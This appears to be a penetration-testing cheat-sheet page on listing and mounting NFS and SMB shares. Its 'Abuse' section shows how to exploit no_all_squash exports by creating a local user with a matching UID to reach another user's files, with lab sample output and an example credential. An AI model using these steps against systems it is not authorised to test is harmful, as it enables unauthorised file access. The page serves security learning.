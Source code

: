 ```yaml
---
title: "Mount Share"
date: 2024-6-26
tags: ["NFS", "Mount", "Smb", "File System Mounting", "Enumeration", "Share", "Cifs", "File System Permissions Vulnerabilities"]
---
```


{{< tab set1 tab1 >}}nfs{{< /tab >}}
{{< tab set1 tab2 >}}smb{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### List share

```console
showmount -e <TARGET>
```

```console {class="sample-code"}
$ showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

#### Mount share

```console
sudo mkdir /mnt/share
```

```console {class="sample-code"}
$ sudo mkdir /mnt/share
```

```console
sudo mount -t nfs <TARGET>:<SHARE> /mnt/share/
```

```console {class="sample-code"}
$ sudo mount -t nfs 10.10.11.191:/home/ross /mnt/share/

$ ls /mnt/share 
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
```

#### Unmount share

```console
sudo umount /mnt/share/
```

```console {class="sample-code"}
$ sudo umount /mnt/share/
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Mount share

```console
sudo mount -t cifs //<TARGET>/<SHARE> /mnt
```

```console
# Without creds
sudo mount -t cifs -o user=,password= //<TARGET>/<SHARE> /mnt
```

```console
# With creds
sudo mount -t cifs -o user='<USER>',pass='<PASSWORD>' //<TARGET>/<SHARE> /mnt
```

```console {class="sample-code"}
$ sudo mount -t cifs -o ro,user='localadmin',password='Secret123' //10.10.11.102/Shared /mnt

$ ls /mnt      
Documents  Software
```

#### Mount inside Windows

```console
# Mount
net use \\localhost\c$ /u:'<DOMAIN>\<USER>' '<PASSWORD>'
```

```console
# Check
dir \\localhost\c$\users\administrator\desktop
```

{{< /tabcontent >}}

---

### Abuse #1: Misconfigured Share

```console
# Check all mounted drives
mount
```

```console {class="sample-code"}
$ mount     

...[SNIP]...
10.10.11.191:/home/ross on /mnt/share type nfs4 (rw,relatime,vers=4.2,rsize=262144,wsize=262144,namlen=255,hard,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=10.10.14.31,local_lock=none,addr=10.10.11.191)
```

```console
# Check how shares are mounted
cat /etc/exports
```

```console {class="sample-code"}
$ cat /etc/exports
/var/nfsshare *(rw,sync,root_squash,no_all_squash)
/opt *(rw,sync,root_squash,no_all_squash)
```

<br>

```console
+-----------------------------------------------------------------------------------------+
| root_squash  : running as root on local system will be treated as nobody user in target |
| no_all_squash: every other users permission will translate from local system to target  |
+-----------------------------------------------------------------------------------------+
```

<br>

```console
# Add dummy user
sudo useradd dummy
```

```console {class="sample-code"}
$ sudo useradd dummy
```

```console
# Change uid
sudo usermod -u 1001 dummy 
```

```console {class="sample-code"}
$ sudo usermod -u 1001 dummy
```

```console
# Switch to dummy user
sudo su dummy -c bash
```

```console {class="sample-code"}
$ sudo su dummy
$ id
uid=1001(dummy) gid=1001(dummy) groups=1001(dummy)
```

